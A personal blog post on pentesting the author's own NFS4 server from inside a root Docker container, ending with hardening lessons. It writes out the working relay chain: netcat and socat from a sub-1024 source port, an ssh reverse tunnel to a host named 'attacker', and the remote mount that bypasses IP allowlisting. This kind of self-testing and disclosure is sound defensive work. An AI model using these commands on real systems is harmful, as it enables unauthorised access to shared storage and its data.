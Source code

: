 ```yaml
---
title: "Pentesting NFS4 from inside a container"
date: 2025-07-19
tags:
- containers
- pentest
- network
featuredImage: /images/rohan-ZoXCoH7tja0-unsplash.jpg
---
```


## Introduction
I recently set-up a **docker swarm** and was so excited! I absolutely do not need it, but you know, one day I might (yea sure).

The first thing I learnt was that to operate a swarm you needed a sort of network storage or a highly available storage. NFS4 was the winner for me and a NFS VM was created and shares were made for hosting docker volumes, what could go wrong?!

Well, at first everything seemed fine, but as some of you may know, setting up auth on NFS is a bit painful, at least for me it is. By default there is no authentication and access control is demanded to IP whitelisting. Okay cool.

I of course locked in the subnet of the swarm, so absolutely no one outside of it could access the shares.. yeah.. **I also enabled the `secure` option on NFS**, that demands the source port of the TCP connection to be lower than 1024, so it needs to be originated from the root user, which is kind of smart, I wouldn't never have thought about this.

I deployed some containers and played a bit with everything for a few days to find the perfect setup and then I was hit with a existential doubt: **What if a container's security gets compromised?**

I mean, I am okay with the fact that the container can access his own data, but **what if the container is able to access the whole NFS share**? Naahhh I must be missing something.. but let's test it anyway..

I simulate an RCE on a container that gets run as root (a lot of them are) and download netcat. I launch it to connect directly to the NFS share with a low port.. and guess what? It works.

`nc -v -p 532 nfs-share-ip 2049`

![scared cat](/images/scared_cat.webp)

Okay now what? I mean **it should not be possible to mount the shares locally**, and in fact it's not, as there is the need of a privileged container.. ***but*** the TCP connection is open with the lower port and I cannot sleep at night by knowing that **the connection can be relayed somewhere** to be then mounted on a VM that has the `nfs` kernel module and all that it's needed to mount it..

I do a bit of research and decide to use `socat` to listen to port 2049 INSIDE the container while mapping it to the remote 2049 port of the NFS share, by specifying a source port that it's lower than 1024:

`socat TCP-LISTEN:2049,fork,reuseaddr TCP:NFSSERVER:2049,sourceport=532`

![donald duck gulp](/images/donald-duck-gulp.gif)

I now download `ssh` and launch: `ssh user@attacker -R 2049:127.0.0.1:2049`, with this command the **local port 2049 of the container gets mapped on the remote host** I am connecting to: `attacker`.

From the `attacker` host I then `sudo su` and issue `mount -t nfs4 127.0.0.1:/stuff /mnt` and... **it works**.

![crying dog](/images/crying_dog.gif)

I successfully mounted a share that I shouldn't have access to, on a host that is not on the subnet.

This is what I see from the NFS host:

`tcp        0      0 x.x.x.x:2049     y.y.y.y:532      ESTABLISHED`

## Diagram of what happens

![diagram](/images/nfs_pentesting_diagram.png)

## Lessons learned

1. **Running containers as root**, even if unprivileged, **may be dangerous**.
2. If you have to run software as root inside the container, at least **make them use a "internal" connection** on docker, so they cannot contact outside IP addresses.
3. If you can't limit to user root and internal connection, absolutely **deny it the possibility to contact the TCP port of the NFS share**.


## Conclusion

What has been discovered is theoretical hot water, I perfectly know it, but **I couldn't find any source on internet regarding the information gathering of NFS4 shares** and also I think I am not the only one that has a similar setup.

Before relaying the connection with `socat` I tried all `nmap` scripts, but found out that they work only for NFS 3 and lower, as they make use of the `rpcbind` service. I found no tool/guide to gather information regarding NFS 4 shares, so I decided to write this mini guide.

Hope it's appreciated.
